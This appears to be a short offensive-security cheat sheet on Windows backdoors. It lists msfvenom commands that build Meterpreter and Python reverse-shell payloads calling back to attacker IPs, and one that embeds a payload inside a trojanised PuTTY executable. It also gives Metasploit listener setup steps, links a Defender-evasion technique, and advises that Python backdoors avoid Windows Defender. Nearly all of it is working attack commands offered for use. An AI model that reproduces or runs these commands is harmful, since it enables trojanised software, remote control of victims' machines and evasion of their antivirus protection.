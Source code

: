 ### Windows Backdoors:

#### Payloads: (No chance beacause of windows defender)

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe<br>
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py

#### Payloads hidden in exe:<br>

$ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=213.32.70.39 LPORT=7777 -x ../putty.exe -f exe-only -o ~/Samples/Bad/putty64-777.exe<br>

Working exploit that avoids windows defender:<br>
https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon

#### Host:
<br>
- MSFCONSOLE<br>
    - use /exploit/multi/handler<br>
	- set payload windows/meterpreter/reverse_tcp<br>
	- set LHOST [IP]<br><br>
	- set LPORT [Port]<br>
	- set ExitOnSession false<br>
	- exploit -j -z<br>
	- sessions -l<br>
	- sessions -i 2<br>
<br>
Python backdoors are safer, as they are not checked by windows defender. There is always a risk with the firewall though.
